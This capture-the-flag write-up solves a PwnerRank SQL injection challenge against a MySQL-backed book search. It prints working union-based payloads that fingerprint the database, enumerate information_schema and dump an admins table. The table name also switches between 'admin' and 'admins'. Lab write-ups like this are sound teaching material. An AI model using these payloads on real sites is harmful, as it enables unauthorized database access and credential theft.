 # Writeups for pwnerrank challenges

## SQL injection - Dump Database https://www.pwnerrank.com/tasks/sql-injection-dump-database

Side note: This challenge took somewhere around 2 hours to solve, I was not familiar with many of the SQLi techniques required to solve this challenge but knew where to look to learn.
To anyone learning and stuck just Try Harder! SQL injection cheat sheets are you friend, pay attention to details in the syntax! Before 'cheating' look up some of the talk by Joe McCray on SQL injection (Defcon 17 talk will help with this challenge). Incredibly valuable stuff and really fun to watch.  He explains his thought process going through SQLi.  (Keep in mind his Defcon17 talk uses MS SQL not MySQL so there will be syntax differences)

"DEF CON 17 - Joseph McCray - Advanced SQL Injection"
https://www.youtube.com/watch?v=-AkUutmXwUI


### Objective
Steal the admin password

### Verifying SQL Injection
First step was to learn how the web application works, then try to verify SQL injection.  The page features a single text form that is used to search the small database.  The text form searches the "Book" and "Author" fields but not the "Price field".

On to SQL injection. I tried the following basic SQL injections too see if I could learn some information about what database backend was in use.

```a'or 1=1
a" or 1=1
a' or '1'='1
a" or '1'='1
```

The following next injection I tried `a' or '1'='1'` generated a MySQL Syntax error:
```DB Error, could not query the database MySQL Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'%'' at line 1```


Time to add a MySQL comment `#` or `-- ` to the end and see if it works. `a' or '1'='1'#` Success! No error is generated, and all the contents are displayed.
![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-1.png "SQLi Pic 1")

The fact that all the records are shown and no error is generated indicates `or 1=1` was executed.

### SQL Query
Now that SQL injection is verified and I know the database backend in use, MySQL.  Now I can create what I think is the SQL query in use to build on and understand how more queries will work.

Combining the knowledge of the application functionality (searching the Book and the Author field) the SQL query probably looks something like:
`SELECT book, author, price from books where book like '$userinput' or author like '$userinput';`

### Determining Amount of Columns and Collection More Information
The next step is to determine the amount of fields and gather some general information like the MySQL version or the user running the database.

The database has atleast 3 columns. So using `ORDER BY` we can being enumuration. First lets verify the `ORDER BY` query will work.

```' order by 1#```

Great it works, let's see how many columns there is.

```' order by 3#```
3 columns, works as expected.

```' order by 4#```
4 columns, no errors yet.

```' order by 5#```
ERROR! Number of columns in the current table is 4.


Moving forward it's time to check to see what columns are being printed to the screen.

```' or 1=1 union all select 1,2,3,4#```

The above query outputs:
![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-2.png "SQLi Pic 2")


So the paramters 2, 3 and 4 get printed to screen, so we can change these to database columns and gather information from.

First check for the MySQL version and user.

```' or 1=1 union all select 1,version(),user(),4#```

![alt text](https://raw.githubusercontent.com/Freakazoidile/ctf_challenges/master/pwnerrank/Web%20Exploitation/sql-injection-dump-database-3.png "SQLi Pic 3")
As can be seen version 5.5.53 of MySQL is likely in use and what looks like a debian operating system 'deb' version 8u1? Searching `5.5.53-0+deb8u1` on Google reveals this is correct.


### Getting the flag! < SPOILER WARNING! LAST CHANCE!! > 
Now that we can use SQL union queries to get information we can find the admin password.  First step is to find the right table. Time to use the `information_schema` table (hopefully we have access to read it) to see what other tables and columns exist.

```' or 1=1 union all select 1,table_name,3,4 from information_schema.tables#```
This reveals alot of tables, 42 to be exact. The last two tables are `admin` and `books`. Lets see what columns are in the `admin` table.

```' or 1=1 union all select 1,column_name,3,4 from information_schema.columns where table_name like 'admins'#```

Results show the following columns are present in the admin table: `id`, `username`, `password`, `email`.
The goal is to get the `admin` password, lets try and dump the passwords from the admin table.

```' or 1=1 union all select 1, username, 3, 4 from admins#```

Success, the flag has been claimed! Looks like there is only one entry in the admins database. 

`pwnerrank{REVOKED FLAG}`






